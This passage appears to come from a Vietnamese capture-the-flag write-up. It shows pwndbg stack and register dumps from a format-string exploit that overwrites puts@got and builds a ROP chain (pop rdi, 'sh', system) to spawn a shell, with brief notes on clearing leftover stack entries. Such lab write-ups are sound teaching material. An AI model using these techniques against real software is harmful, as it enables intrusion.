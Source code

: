 ```shell
00:0000│ rsp 0x7ffe526c2080 ◂— 0x3632256e24323125 ('%12$n%26')
01:0008│     0x7ffe526c2088 ◂— 0x2430312570393337 ('739p%10$')
02:0010│     0x7ffe526c2090 ◂— 0x363432373134256e ('n%417246')
03:0018│     0x7ffe526c2098 ◂— 0x2d6e243131257034 ('4p%11$n-')
04:0020│     0x7ffe526c20a0 —▸ 0x404080 ◂— 0x6873 /* 'sh' */

```
oái oăm là lúc này gọi **pop_rdi** là dính bẫy, stack vẫn đang chứa chuỗi ta nhập vào do đó ta cần pop sạch stack. rồi mới thêm **pop_rdi**
ngay sau là *chuỗi sh* xong rồi tiếp theo là hàm **system**, để khi pop rdi xong nó ret => system 

Sau khi pop 4 stack ra thì có vẻ vẫn còn sót 1 ẻm:

```shell
───────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────── RAX  0x401320 (__libc_csu_init+96) ◂— pop r14
 RBX  0x0
 RCX  0x7f496b2c7a37 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x402028 ◂— 'As someone wise once said, `sh`'
 RSI  0x7fff6ef04010 ◂— 0x2020202020202020 ('        ')
 R8   0x1320
 R9   0x0
 R10  0x0
 R11  0x246
*R12  0x401277 (main+161) ◂— lea rdi, [rip + 0xdca]
*R13  0x3632256e24323125 ('%12$n%26')
*R14  0x2430312570393337 ('739p%10$')
*R15  0x353432373134256e ('n%417245')
 RBP  0x7fff6ef06240 ◂— 0x1
*RSP  0x7fff6ef06148 ◂— 0x2d6e243131257037 ('7p%11$n-')
*RIP  0x401324 (__libc_csu_init+100) ◂— ret
────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────── ► 0x401324 <__libc_csu_init+100>    ret    <0x2d6e243131257037>










─────────────────────────────────[ STACK ]──────────────────────────────────00:0000│ rsp 0x7fff6ef06148 ◂— 0x2d6e243131257037 ('7p%11$n-')
01:0008│     0x7fff6ef06150 —▸ 0x404080 ◂— 0x6873 /* 'sh' */
02:0010│     0x7fff6ef06158 —▸ 0x404018 (puts@got[plt]) —▸ 0x40131c (__libc_csu_init+92) ◂— pop r12
03:0018│     0x7fff6ef06160 —▸ 0x40401c (puts@got[plt]+4) ◂— 0x40104000000000

```
